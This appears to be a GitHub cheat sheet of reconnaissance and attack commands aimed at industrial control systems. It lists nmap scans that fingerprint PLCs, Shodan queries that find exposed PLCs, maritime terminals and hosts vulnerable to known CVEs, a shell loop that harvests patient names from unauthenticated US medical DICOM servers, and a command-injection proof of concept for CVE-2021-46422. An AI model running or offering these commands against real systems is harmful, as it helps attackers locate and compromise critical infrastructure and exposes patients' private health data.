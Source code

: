 # ICS/SCADA 
## Enumeration Techniques for 
* Effective Scanning
* Network Reconnaissance
* Tactical Host Probing


### General Enumeration
```
nmap -Pn -sT --scan-delay 1s --max-parallelism 1 \
    -p
    80,102,443,502,530,593,789,1089-1091,1911,1962,2222,2404,4000,4840,4843,4911,9600,19999,20000,20547,34962-34964,34980,44818,46823,46824,55000-55003 \
    <target>
```

### Siemens S7
Enumerates Siemens S7 PLC Devices and collects their device information. This script is based off PLCScan that was developed by Positive Research and Scadastrangelove (https://code.google.com/p/plcscan/). This script is meant to provide the same functionality as PLCScan inside of Nmap. Some of the information that is collected by PLCScan was not ported over; this information can be parsed out of the packets that are received.

Usage:
```
nmap --script s7-info.nse -p 102 <host/s>
```

Output:
```
102/tcp open  Siemens S7 PLC
| s7-info:
|   Basic Hardware: 6ES7 315-2AG10-0AB0
|   System Name: SIMATIC 300(1)
|   Copyright: Original Siemens Equipment
|   Version: 2.6.9
|   Module Type: CPU 315-2 DP
|   Module: 6ES7 315-2AG10-0AB0
|_  Serial Number: S C-X4U421302009
```


### Modbus Scanning
```
nmap -Pn -sT -p502 --script modbus-discover <target>

nmap -sT -Pn -p502 --script modbus-discover --script-args modbus-discover.aggressive=true <target>
```

### Bacnet
```
nmap -Pn -sU -p47808 --script bacnet-info <target>

# Siemens Bacnet P2 Enumeration 

nmap -Pn -sT -n -T4 -p5033 <target> 
```

### Enip
```nmap -Pn -sU -p44818 --script enip-info <target>```


### Niagara fOX
```nmap -Pn -sT -p1911,4911 --script fox-info <target>```


### Omron
```nmap -Pn -sU -p9600 --script omrom-info <target>```


### PCWorx Devices
PCWorx devices allow unaunthenticated requests that query for system information.
```nmap -Pn -sT -p1962 --script pcworx-info <target>```


## Shodan.io Queries

### PLCs
Siemens S7-1200 PLC
```
Location: /Default.mwsl
```

Siemens APOGEE Building Systems
```
Model Name: Siemens BACnet Field Panel
```

Omron CJ2 PLCs
```
Product name: CJ2*
```

Schneider Electric PLCs
```
Device Identification: Schneider Electric
```

## Maritime 

K4 Edge Routers and Maritime VSAT
```
"k4DCP5" country:US
```

KVH Commbox Terminals
```
html:commbox
```

Cobham Sailor 900
```
title:”sailor 900"
```


## Miscellaneous

TeamViewer
```
port:5938 "\x17$\x11\x04\x00"
```

Yealink T49G VOIP Phones
```
Yealink T49G
```

## CVE-2022-22954
VMware Workspace ONE Access and Identity Manager contain a remote code execution vulnerability due to server-side template injection. A malicious actor with network access can trigger a server-side template injection that may result in remote code execution.
```
http.favicon.hash:-1250474341
```

## Exposed DICOM Servers
Count patient names in US exposed DICOM medical servers with no authentication
```
$ shodan download search "tag:medical" "country:us"; shodan parse --fields ip_str search.json.gz > usa_dicom_ip ; for i in `cat usa_dicom_ip` ; do echo "///// Now connecting to $i ////" ; findscu -v -to 1 -P -k PatientName="*" $i 104 >> us_dicom_patient_names; wc -l us_dicom_patient_names ; done
```

## Zyxel Firewall Unauthenticated Remote Command Injection
Rapid7 discovered and reported a vulnerability that affects Zyxel firewalls supporting Zero Touch Provisioning (ZTP), which includes the ATP series, VPN series, and the USG FLEX series (including USG20-VPN and USG20W-VPN). The vulnerability, identified as CVE-2022-30525, allows an unauthenticated and remote attacker to achieve arbitrary code execution as the nobody user on the affected device.
```
title:"USG FLEX 100","USG FLEX 100w","USG FLEX 200","USG FLEX 500","USG FLEX 700","USG FLEX 50","USG FLEX 50w","ATP100","ATP200","ATP500","ATP700"
```

## SDT-CW3B1 1.1.0 - OS Command Injection (CVE-2021-46422)
```
poc:http://<IP>/cgi-bin/admin.cgi?Command=sysCommand&Cmd=id
```
